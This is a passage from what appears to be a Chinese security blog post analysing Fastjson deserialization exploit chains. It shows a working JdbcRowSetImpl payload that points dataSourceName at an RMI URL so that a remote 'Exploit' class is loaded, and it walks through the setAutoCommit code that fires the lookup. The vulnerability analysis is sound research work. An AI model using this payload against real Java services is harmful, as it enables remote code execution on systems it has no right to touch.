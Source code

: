 > 原文链接: https://www.anquanke.com//post/id/248892 


# Fastjson三种利用链对比分析


                                阅读量   
                                **20496**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t0175552f2250560322.jpg)](https://p1.ssl.qhimg.com/t0175552f2250560322.jpg)



Fastjson已被大家分析过很多次，笔者是java小白，尝试跟着大佬的步伐做一些分析。具体的各种小版本绕过可以参考先知这两篇：[Fastjson 1.2.22-1.2.24反序列化漏洞分析](https://xz.aliyun.com/t/9052)和[Fastjson 1.2.25-1.2.47反序列化漏洞分析](https://xz.aliyun.com/t/8979)。关于fastjson反序列化的深入分析参考三梦师傅的文章：[Fastjson反序列化RCE核心-四个关键点分析](https://xz.aliyun.com/t/7107)

本文主要是对三种利用链做分析和对比



## JdbcRowSetImpl

```
String payload = "`{`\n" +
    "    \"a\":`{`\n" +
    "        \"@type\":\"java.lang.Class\",\n" +
    "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
    "    `}`,\n" +
    "    \"b\":`{`\n" +
    "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
    "        \"dataSourceName\":\"rmi://127.0.0.1:1099/Exploit\",\n" +
    "        \"autoCommit\":true\n" +
    "    `}`\n" +
    "`}`";
JSON.parse(payload);
```

payload中的a对象用来当作缓存绕过，需要关注的是第二个对象

注意到其中`"autoCommit":true`，反序列化时，会反射设置属性，调用`com.sun.rowset.JdbcRowSetImpl.setAutoCommit()`

```
public void setAutoCommit(boolean var1) throws SQLException `{`
        if (this.conn != null) `{`
            this.conn.setAutoCommit(var1);
        `}` else `{`
            // conn为空才会调用到这里
            this.conn = this.connect();
            this.conn.setAutoCommit(var1);
        `}`
    `}`
```
